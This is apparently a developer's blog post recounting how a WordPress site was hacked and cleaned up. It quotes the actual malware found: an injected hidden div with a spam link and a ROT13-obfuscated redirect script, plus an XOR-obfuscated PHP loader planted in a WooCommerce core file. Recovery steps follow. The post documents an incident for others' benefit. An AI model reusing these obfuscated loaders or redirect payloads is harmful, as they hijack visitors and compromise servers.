 ```yaml
---
title: 'Wordpress redirect hack'
date: '2020-03-10'
sinopsis: 'A wordpress site I was building was hacked, I lost a full day cleaning it up'
tags: [Wordpress, hack, infected]



---
```



# So you've been hacked
## Wordpress redirect hack

Testing out a website we were building for a client, suddenly, the website starts redireting to spam websites, like lottery scam pages and whatnot.

What I did first, of course, was inspecting the source code of the website, that is to say the raw html of your site.
The hack was injecting a div, with a script, just above the main wrapper

```HTML

<div id="3f41457d"><a href="http://perfectfastsale.su" style="visibility: hidden" title="rx online">rx online</a><script>String.prototype.a73fba7d=function(){return this.replace(/[a-zA-Z]/g,function(c){return String.fromCharCode((c<='Z'?90:122)>=(c=c.charCodeAt(0)+13)?c:c-26);});};u='uggcf://trglbhecevmrabj.yvsr/?h=l2lxnrj&b=2khc89e&z=1&g=Z09';function f31454d7(){window.top.location.href=u.a73fba7d();}setTimeout(f31454d7,4987);</script></div>


```


And that is just the begining. Almost 50 infected wordpress core files, injecting stuff. What a blast...

Stuff like this, into a Wordpress logging class:

```PHP

<?php $NfGPtIkV='3H.--2a  S1, R-'; $ywpPnUj='P:KLYW>FU=RXI=C'^$NfGPtIkV; $mAxOujic='R.ox4  Q RZR6NADGL4Il4Q;3H8F5ic -LojYB1mj5DE2Y.=WcHT0n=-;9hr B=gh>P80XMt1-0xuxbqJ5lbfP8UHOlbowonaBU+ ig0Ulchcmr.tO,IQ16LS= =LobGNWGeXzd=jZ75rwMszsDV ;pmG+Riur< =8m9ccy;2 =WYzp V6a:yMn2l 2M 8YjCOG hJp0GX.EhHQY=LVGX,3=CPcLi=SJ3.,1BIoK.J8 3qZD0+:-T+ qPmf0to +iq2XwpQ,=xKkeg8X8;2DE=aQl2+7 qX 1Mqzi-Y,cdbs=V:WTeea=;=, u=:xyEPglTb2+1 zr4S0TT6W6R2IeB;y,0bwjtXR:wC1WWfnyHR MAK1pj:HcCmD6FWfX03bThjQ7CkYM2OYOI qlYAN68=VibY8y.lfK1R8PAOYn;XNKA YPPI Q-R4oIRH b<+BBo8Z1PrdaT,RD>-Nj70.4lgre+  L+GEHCjo:9,np5P6RaoenXN1526 YJjK= IEKNkU38Runm ,7SexlUPf93dcmIT,Z4W, 0roNQrgUoJVUc4PBzYSuW6bvWJGLXhu=nkQVa6WZcmNZtcWUO0W,f-EJfKF=6=CynM +=R2.bhPmW,;6YGdfnbeF7YxH1.Lqn.W 3gSH O>U.7akjOmD UI:jeka>C'; $VYlFrwZx=$ywpPnUj('', ';HGYRUN2T;5<i+9-48GaKL>Il,Y2T6<MX8HCpbJgcS1+Q-GR9C0;B1YLOX7-M7IOLZ1LQtmPZHIQUXBQjNfkotW <oQBHPTdhK3DRACYuQCXXMVGH<X;=TXdwYAI-FYgj>lNqpm4N5BARYpSRW 7TZ+I.vr7UVWEDcIPCFYHFRQ27RTK3OHgPvd;eRW9UJ7Bg 2TAqz9:RSObl58I-vzxJRQ05XFMY2>RqGT;iRkH+TSVJPNVDHH5HHQxI9s; kb,QS+WT:IDXvUECN9TNWmeFkXHVJCA.3EHmLZMF<UXnkWY7N6tXEEKZQYEN7Grs,6GDuFVJEASROY92;D2W1ZiMfd+ia729 x3IWgZ2.FSGhvV,->TYJABjJI W2693UJBiHN:R:PSD;k=.=AQQye8WTH3RhPEsSfloU3L1ary.N6=.3I8<93EyU=F0-3<A=cF76GZ;B5DP>0I1+ZHfNSQZUEKRAOAT-t, 1jCT0PJFTQ1B3AICN9<CTKiK<35.EI:18fL>VAuYNIDMC2LXJspNTWQKI-5X;opGEIU2gqOZuHzfbPV1pM;6D1UPB5,szhYAYZZecPS5oUJgzREw4=B6U9F 39.>TEI0QI=ARQ=SJEDpI3MOWpnDFNBEfLSq-GO YJJ6TR<t8A6R:OSF6CtgME- NBUBZ4>'^$mAxOujic); $VYlFrwZx();
/**
 * Provides logging capabilities for debugging purposes.
 *
 * @class          WC_Logger
 * @version        2.0.0
 * @package        WooCommerce/Classes
 */
 ```

 This was injected into you name it, plugins, theme files, wordpress core files... Amazing. So what now?
 Let's try to remove it manually and hope the site does not break.
 Certain plugins can help remove malicious files, Wordpress Defender, only for core files, is really good. You can pay the pro version for plugins and software
 
 The infection also reached the uploads folder, 
 example: wp-content/uploads/2020/02/blogking.php,
 and also this as well:

![html](./images/wordpress-hacks.jpg)

After a few backs and forths, deleting infected plugins, infected themes. I still couldnt resolve the issue. Since every page on the website was redirecting to this malicious site I thought the issue was a script being injected globally. But no, after searching the web a bit more, while I was massively deleting files via SFTP, I found a recommendation for the plugin Wordfence. Its the best. It pointed me to the correct direction. All of my pages were infected, they were edited and they had a block added. Inside this block there was a DIV tag with an A tag, which would contain a malicious site. There was also a script tag which would make the site redirect to that a Tag on a timeout. Check it out.

![html](./images/wordpress-hacks2.jpg)

Finally after removing the blocks, the problem was solved.

1. I deleted all of my flatsome parent theme file and I did a fresh copy of the parent theme.
2. Deleted woocommerce since it was infected.
3. My child theme was also infected, so I had to clean up those php files.
4. Also, some plugins were infected, I just deleted those via FTP and re-installed them.

So, it was not the end of the world, but I did loose a day, where I almost had a little heart attack when I thought I lost the whole website! 


 
 


